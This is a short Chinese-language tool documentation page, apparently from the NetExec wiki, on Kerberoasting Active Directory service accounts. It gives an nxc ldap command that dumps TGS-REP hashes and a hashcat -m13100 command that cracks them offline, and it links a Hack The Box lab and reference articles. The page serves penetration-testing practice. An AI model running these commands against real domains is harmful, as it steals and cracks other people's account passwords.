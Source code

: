 ```yaml
---
description: 使用 Kerberoasting 获取 Kerberos 5 TGS-REP etype 23 哈希
---
```


# Kerberoasting

你可以使用 Kerberoasting 技术获取 Kerberos 5 TGS-REP etype 23 哈希

> Kerberoasting 的目标是获取在 AD 中代表用户账户(而不是计算机账户)运行的服务的 TGS 票据。因此,这些 TGS 票据的一部分是使用从用户密码派生的密钥加密的。因此,他们的凭证可以离线破解。更多细节请参见 [Kerberos 理论](https://www.tarlogic.com/en/blog/how-kerberos-works/)。

{% hint style="warning" %}
要执行此攻击,你需要在域上有一个账户
{% endhint %}

```
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```

### 使用 hashcat 破解

```
hashcat -m13100 output.txt wordlist.txt
```

### 示例

Active 机器是使用 NetExec 测试 **Kerberoasting** 的一个很好的例子

{% embed url="https://www.hackthebox.eu/home/machines/profile/148" %}

### 有用的资源:

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://en.hackndo.com/kerberoasting/" %}

